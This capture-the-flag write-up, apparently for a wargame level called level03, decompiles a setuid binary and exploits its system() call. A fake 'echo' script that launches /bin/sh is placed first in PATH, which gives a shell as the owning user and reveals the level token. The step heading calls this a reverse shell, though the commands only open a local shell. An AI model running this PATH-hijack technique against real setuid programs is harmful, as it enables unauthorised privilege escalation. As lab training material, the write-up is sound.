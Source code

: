 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2003(level03) gid=2003(level03) groups=2003(level03),100(users)
```

This shows that we are operating as the user `level03`.

---

## Step 2: Searching for Files

Next, let's check what files are in our `/home` directory:

```bash
$ ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03

$ file level03
level03: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3bee584f790153856e826e38544b9e80ac184b7b, not stripped
```

We find a 32-bit binary owned by `flag03` with executable permissions for our user. Let's transfer it to our local machine for reverse engineering:

```bash
$ scp -P 4242 level03@machine_ip:/home/level03/level03 .
```

---

## Step 3: Reverse Engineering the Binary with Ghidra

The C pseudo code generated by Ghidra is as follows:

```c
void main(void)
{
  __gid_t groupe_id;
  __uid_t user_id;
  
  groupe_id = getegid();
  user_id = geteuid();
  setresgid(groupe_id,groupe_id,groupe_id);
  setresuid(user_id,user_id,user_id);
  system("/usr/bin/env echo Exploit me");
  return;
}
```

This code contains a security vulnerability. The `system` function is used to execute the command `/usr/bin/env echo Exploit me`. The problem arises from the fact that `system` uses the shell to execute the command, and if we can manipulate the environment (specifically the `PATH` variable), we execute arbitrary commands with elevated privileges.

---

## Step 4: Exploiting the Binary to Get a Reverse Shell

To exploit this vulnerability, we can create a malicious `echo` command that spawns a shell and place it at the beginning of the `PATH` environment variable. When the program searches for the `echo` binary, it will search within the directories listed in the `PATH` environment variable (as `/usr/bin/env` does), and it will find our malicious `echo` script first.

```bash
$ echo '/bin/sh' > /tmp/echo
$ chmod +x /tmp/echo
$ export PATH=/tmp:$PATH
```

Now, run the vulnerable binary:

```bash
$ ./level03

% getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

---

And there you have it, the token is `qi0maab88jeaj46qoumi7maus`.
